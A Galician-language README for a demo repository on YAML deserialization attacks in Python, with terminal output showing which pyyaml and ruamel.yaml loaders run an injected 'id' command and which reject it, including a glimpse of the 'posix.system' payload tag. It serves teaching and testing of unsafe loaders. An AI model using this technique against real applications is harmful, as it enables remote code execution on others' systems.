 # YAML injection

Estes exemplos permiten comprobar como se executa código cando cargamos un
fichero yaml usando pyyaml ou ruamel.

Primeiro, instalamos as dependencias con:
```
pip install -r requirements.txt
```

E podemos xerar o un yaml malicioso con `create-rce-pyyaml.py` ou
`create-rce-ruamel.py` e podemolo probar con `pyyaml-load.py` ou
`ruamel-load.py`.

Deixo aquí un par de exemplos. Pode que se os executes a saída do comando varíe
debido á versión de pyyaml ou ruamel que uses sexa diferente. No meu caso as
versións son:
- pyyaml 6.0.2
- ruamel.yaml 0.18.6
- Python 3.11.2

Exemplo con pyyaml:
```
$ python3 create-rce-pyyaml.py 
Payload saved into rce-pyyaml.yaml

$ python3 load-pyyaml.py rce-pyyaml.yaml 
=== Loader=CLoader ===
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),113(lpadmin),116(scanner)

=== Loader=FullLoader ===
fail!!

=== Loader=Loader ===
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),113(lpadmin),116(scanner)

=== Loader=SafeLoader ===
fail!!

=== Loader=UnsafeLoader ===
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),113(lpadmin),116(scanner)

=== safe_load ===
fail!!

=== unsafe_load ===
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),113(lpadmin),116(scanner)
```

Exemplo con ruamel:
```
$ python3 create-rce-ruamel.py 
Payload saved into rce-ruamel.yaml

$ python3 load-ruamel.py rce-ruamel.yaml 
=== Using YAML() ===
['id']
=== Using YAML(typ='safe') ===
Error: could not determine a constructor for the tag 'tag:yaml.org,2002:python/object/apply:posix.system'
  in "<unicode string>", line 1, column 1

=== Using YAML(typ='unsafe') ===
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),113(lpadmin),116(scanner)
0
```
